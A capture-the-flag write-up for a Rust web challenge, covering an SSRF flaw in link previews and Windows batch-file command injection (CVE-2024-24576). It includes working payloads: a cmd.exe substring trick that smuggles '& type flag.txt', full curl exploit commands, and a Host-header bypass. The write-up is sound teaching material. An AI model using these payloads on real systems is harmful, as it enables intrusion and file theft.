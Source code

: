# Writeup: Malkonkordo

*By: TrebledJ*

Malkonkordo (meaning *discord* in Esperanto) is a Rust web app with markdown preview functionality.

Source code contains three Rust files:

- `main.rs`: Handles routing and middleware.
- `preview.rs`: Handles markdown to HTML conversion.
- `admin.rs`: Handles admin page and functionality.

Let's play around with the app.

## Link Previews

Links are previewed similar to Discord's embed.

![](preview.png)

But how does the previewing functionality work? How do we know what the title and image is?

This is handled on the server side in preview.rs.

1. The web server extracts links using a simple regex (preview.rs:L250).
2. The links are rendered to HTML asynchronously by fetching HTML content (preview.rs:L181).
3. The content is converted to a `LinkMetadata` struct containing extracted metadata: site name, title, description, and image. (preview.rs:L70) These rely on the [OpenGraph protocol](https://ogp.me/), a widespread metadata standard.
4. Finally, the `LinkMetadata` structs are converted to Discord-styled HTML and appended to the preview (preview.rs:L262).

However, this preview feature does not whitelist or blacklist which sites can be previewed. As a result, we can pass it arbitrary sites to be requested, constituting an *SSRF (Server Side Request Forgery)* vulnerability.

## Admin Panel

From the routing methods in main.rs, we can see routes to `static/admin.html` and a call to `admin::run_cmd` (main.rs:L48, achieved by sending a GET request to `/ai/run?cmd=...&arg=...`).

The admin page provides numerous features, some of them silly red herrings (`time`, `roll`), and some of them useful (`env`).

The `ping2` command is especially interesting, because it runs a Windows batch script using `std::process::Command`. Essentially, it tries to run `.\scripts\ping.bat <arg>` on the command line, and excludes certain characters.

```rust
"ping2" => {
    if arg.contains(['\'', '"', '*', '!', '@', '^', '?']) {
        return Err("bad chars found".to_string());
    }
    let routput = Command::new(".\\scripts\\ping.bat")
        .arg(arg)
        .output();

    if let Err(_e) = routput {
        return Err("failed to run ping2 output".to_string());
    }

    Ok(String::from_utf8_lossy(&routput.unwrap().stdout).to_string())
}
```

This hints at [CVE-2024-24576](https://nvd.nist.gov/vuln/detail/CVE-2024-24576), which allows command injection in Windows due to the [amazing parsing rules of cmd.exe](https://stackoverflow.com/questions/4094699/how-does-the-windows-command-interpreter-cmd-exe-parse-scripts). Although this finding by [Flatt Security](https://flatt.tech/research/posts/batbadbut-you-cant-securely-execute-commands-on-windows/) affects multiple languages (Haskell, Java, Node.js), for some reason it was more disruptive among the Rust community.

The idea is that when executing .bat files on Windows, cmd.exe is opened and parses the command to run the script. By injecting a string such as `"&calc.exe`, we should be able to escape parsing, and trigger a separate command to run `calc.exe`.

Since double-quotes `"` are blacklisted in L95, we need an alternative to escape. Some alternatives provided in Flatt's research disclosure are:

1. Using environment variables which contain `"`. By enumerating env variables with admin `env` command, we can check for entries containing `"`.
2. Using `CMDCMDLINE`, which may contain `"`.

## Putting It Together

Using SSRF, we can access local admin pages. Combined with a `debug=true` parameter (which echoes the first 500 characters of the HTML response), we can exfiltrate a few env variables.

![](env.png)

Taking a hint from `CARGO_PKG_DESCRIPTION`, we can check the Cargo.toml provided, which indeed contain double quotes near the end, used to quote a poem by Emily Dickinson.

![](cargo.png)

Our final argument payload is thus

```cmd
%CARGO_PKG_DESCRIPTION:~364,1%& type flag.txt
```

where `:~364,1` extracts the double quote using cmd.exe's substring syntax. Here is the corresponding curl command:

```shell
curl http://34.89.30.122/preview -X POST --data 'markdown=*This*%20is%20a%20**preview**!%0A%0Ahttp://127.0.0.1%3a8000%2fai%2frun%3fcmd%3dping2%26arg%3d%2525CARGO_PKG_DESCRIPTION%253a%257e364%252c1%2525%2526%2520type%2520flag.txt&debug=true' -s | grep crew
```

We could also `CMDCMDLINE:~1:1`:

```shell
curl http://34.89.30.122/preview -X POST --data 'markdown=*This*%20is%20a%20**preview**!%0A%0Ahttp%3a%2f%2f127.0.0.1%3a8000%2fai%2frun%3fcmd%3dping2%26arg%3d%25CMDCMDLINE%253a%257e-1%2525%2526type%2520flag.txt&debug=true' -s | grep crew 
```

## Flag

```
crew{Rozoj_estas_rugaj._Violoj_estas_bluaj._Parsirado_estas_malmola._Kiel_Vindozo_kaj_poo.}
```

## Notable Unintendeds

### Host Header Attack to Bypass Localhost Restrictions

Some players discovered the `Host` header could be used to bypass localhost restrictions, by setting the header to `Host: 127.0.0.1`.

This allowed them to access the admin interface (`<site>/ai/`), view *all* environment variables, and easily hunt for a double quote.
